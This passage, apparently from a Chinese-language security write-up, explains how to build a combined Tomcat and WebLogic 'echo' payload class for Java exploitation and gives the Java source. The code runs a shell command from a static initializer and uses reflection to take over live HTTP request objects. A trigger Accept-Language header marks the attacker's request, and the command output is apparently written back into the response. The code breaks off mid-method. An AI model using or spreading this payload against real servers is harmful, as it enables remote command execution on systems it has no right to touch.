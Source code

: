 ## 生成回显class模板

因为不同web框架，获取到web请求的方式不同，所以，需要针对不同web框架，分别制作一套模板

也可以把多套模板合并，通过加载的类判断当前环境。代码编写时，最好通过反射加载class，来适应更多环境。

代码如下，合并了tomcat和weblogic框架的paylaod

```java
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class MultiEchoTempl {
    static String cmd ="whoami";
    public MultiEchoTempl(){
        start();
    }
    static {
        start();
    }
    private static void start(){
        try{
            Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            tomcat();
            return;
        } catch (Exception ignored){

        }
        try {
            Class.forName("weblogic.work.ExecuteThread");
            WeblogicEchoTemplate();
            return;
        } catch (Exception ignored){

        }
    }
    private static void tomcat() {
        try{
            Thread[] var5 = (Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread var7 : var5) {
                if (var7 != null) {
                    String var3 = var7.getName();
                    if (!var3.contains("exec") && var3.contains("http")) {
                        Object var1 = getFV(var7, "target");
                        if (var1 instanceof Runnable) {
                            try {
                                var1 = getFV(getFV(getFV(var1, "this$0"), "handler"), "global");
                            } catch (Exception var13) {
                                continue;
                            }
                            List var9 = (List) getFV(var1, "processors");
                            for (Object var11 : var9) {
                                var1 = getFV(var11, "req");
                                Object var2 = var1.getClass().getMethod("getResponse").invoke(var1);
                                String var15 = (String) var1.getClass().getMethod("getHeader", String.class).invoke(var1, "Accept-Language");
                                if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                                    var2.getClass().getMethod("setStatus", Integer.TYPE).invoke(var2, new Integer(200));
                                    String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
```